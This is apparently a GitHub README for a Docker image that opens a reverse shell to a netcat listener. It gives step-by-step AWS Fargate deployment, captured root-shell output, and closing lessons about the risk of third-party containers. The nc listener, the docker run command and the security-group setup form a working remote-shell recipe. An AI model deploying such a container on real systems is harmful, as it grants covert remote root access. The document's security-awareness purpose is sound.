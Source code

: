 # Reverse Shell Container

Run a container which connects to a server with a reverse shell.

## Usage of the remote shell container

Follow these steps to connect back to a shell from within a container.

### Start the server

The reverse shell in the container will connect back to your server.
Open up a port with the following snippet:

```bash
nc -lvvp 6666
```

### optional: Build the image

```bash
docker build -t ayeks/reverse_shell:latest .
```

### Execute the image

Run the reverse shell container with: `docker run --rm -it -e IP=192.168.178.26 -e PORT=6666 ayeks/reverse_shell`

## Start the reverse shell container in AWS Fargate

We all run 3rd party components in our kubernetes clusters but couldn't
care less about it. This example shows how to setup the reverse shell
as a Fargate Container and how it connects back to an EC2 server.

### Setup the AWS Security Groups

Create a reference security group for the container which we will allow
as ingress at our server.

* Security Group Name: `sg_reverse_shell_reference`
* Inbound Rules: none
* Outbound Rules:
  * `All traffic All All 0.0.0.0/0`

Create a security group for your server that allows you to connect to it via
SSH from home and with the reverse shell from the container.

* Security Group Name: `sg_server`
* Inbound Rules:
  * `All TCP TCP 0 - 65535 sg-RANDOMNUMBER(sg_reverse_shell_reference)`
  * `SSH TCP 22 YOUR_PUBLIC_IP/32`
* Outbound Rules: all TCP, all IPs:
  * `All traffic All All 0.0.0.0/0`

### Setup the AWS EC2 server

Just choose a EC2 machine that you like. Attach the securitygroup
`sg_server` to this machine. Start the server and connect to it via SSH.

### Create a new container tasks definition

Create a new task definition for the reverse shell container. Only add the
necessary information.

* Task Definition Name: `reverse_shell`
* Task Memory: `0.5GB`
* Task CPU: `0.25 vCPU`
* Container Definition:
  * Container Name: `reverse_shell`
  * Image: `ayeks/reverse_shell`
  * Memory Limit: `Soft limit 400`
  * Environment Variables:
    * `IP` - `your servers internal IP adress`
    * `Port` - `6666`

### Start the reverse shell container in AWS ECS

Before you run the task make sure that you listen for the container at your server:

```bash
nc -lvvp 6666
```

Now go to your cluster and hit *run task*:

* Launch Type: `Fargate`
* Task Definition: `reverse_shell`
* Cluster VPC: `your favourite VPC`
* Subnets: `your favourite subnet`
* Security Groups: edit and select the existing: `sg_reverse_shell_reference`
* Auto-assign public IP: `Enabled` <- without that you cannot pull the image from Docker hub

As a result the container should connect back to your server. You are now able to execute commands directly in the container, eg. `uname -a`:

```bash
[ec2-user@ip-172-31-39-189 ~]$ nc -lvvp 6666
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::6666
Ncat: Listening on 0.0.0.0:6666
Ncat: Connection from 172.31.2.37.
Ncat: Connection from 172.31.2.37:56656.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@ip-172-31-2-37:/# uname -a
uname -a
Linux ip-172-31-2-37.eu-west-1.compute.internal 4.14.158-129.185.amzn2.x86_64 #1 SMP Tue Dec 24 03:15:32 UTC 2019 x86_64 GNU/Linux
```

Just printing the environment variables.

```bash
root@ip-172-31-2-37:/# env
env
AWS_EXECUTION_ENV=AWS_ECS_FARGATE
HOSTNAME=ip-172-31-2-37.eu-west-1.compute.internal
AWS_DEFAULT_REGION=eu-west-1
AWS_REGION=eu-west-1
PWD=/
PORT=6666
HOME=/root
IP=172.31.39.189
ECS_CONTAINER_METADATA_URI=http://169.254.170.2/v3/b9fa9196-e49a-4140-ae3b-bd7322cfbd44
SHLVL=2
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env
```

Or after installation with apt-get, you can run `lshw`:

```bash
root@ip-172-31-2-37:/# lshw
lshw
ip-172-31-2-37.eu-west-1.compute.internal
  description: Computer
  width: 64 bits
  capabilities: smp vsyscall32
  *-core
     description: Motherboard
     physical id: 0
   *-memory
      description: System memory
      physical id: 0
      size: 4GiB
   *-cpu
      product: Intel(R) Xeon(R) CPU E5-2676 v3 @ 2.40GHz
      vendor: Intel Corp.
      physical id: 1
      bus info: cpu@0
      width: 64 bits
...
```

### Troubleshooting

If your container task does not reach the state `RUNNING` but goes
into `STOPPED` have a look the reason. If the container is not able to
connect to your server it just dies and returns `Exit Code 1`.
Check the security groups and other networking topics if that happens.

### Lessons Learned

* think twice before using random containers from the internet
* do not assume you are save, just because you dont allow ingress traffic
* do not run the container as root user because you install interesting software with it
* strip the container base image down as much as possible to reduce available tools
